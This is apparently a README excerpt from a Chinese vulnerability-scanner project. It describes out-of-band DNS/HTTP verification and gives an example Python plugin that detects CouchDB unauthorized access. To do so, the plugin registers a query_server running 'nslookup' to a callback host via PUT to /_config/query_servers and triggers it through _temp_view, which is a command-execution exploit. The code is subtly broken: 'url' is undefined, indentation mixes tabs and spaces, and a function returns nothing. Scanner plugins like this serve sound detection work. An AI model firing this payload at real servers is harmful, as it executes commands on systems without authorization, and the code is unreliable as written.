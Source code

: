 
> DNS：触发，nslookup randomstr IP，验证， http://ip/randomstr ，返回YES即存在。  
HTTP：触发，http://ip/add/randomstr ，验证， http://ip/check/randomstr ，返回YES即存在。  

使用例子:

    import urllib2
	import random
	import socket
	def get_plugin_info():  # 插件描述信息
    	plugin_info = {
    		"name": "CouchDB未授权访问", 
    		"info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
    		"level": "高危",
    		"type": "未授权访问",
    		"author": "wolf@YSRC",
    		"url": "",
    		"keyword": "server:couchdb",  # 推荐搜索关键字
    	}
	def get_ver_ip():
		csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        csock.connect(('8.8.8.8', 80))
        (addr, port) = csock.getsockname()
        csock.close()
        return addr
	def random_str(len):
    	str1=""
    	for i in range(len):
        	str1+=(random.choice("ABCDEFGH1234567890"))
    	return str(str1)
	def check(ip,port,timeout):
	    rand_str = random_str(8)
	    cmd = random_str(4)
		server_ip = get_ver_ip()
	    req_list = [
	        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
	        ["/vultest123",''],
	        ["/vultest123/test",'{"_id":"safetest"}']
	    ]
	    for req_info in req_list:
	        try:
	            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
	            request.get_method = lambda: 'PUT'
	            urllib2.urlopen(request)
	        except:
	            pass
	    try:
	        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
	        req_exec.add_header("Content-Type","application/json")
	        urllib2.urlopen(req_exec)
	    except:
	        pass
	    check = urllib2.urlopen("http://%s/%s"%(server_ip,rand_str)).read()
	    if 'YES' in check:
	        return u"未授权访问"
## 流程演示视频 ##
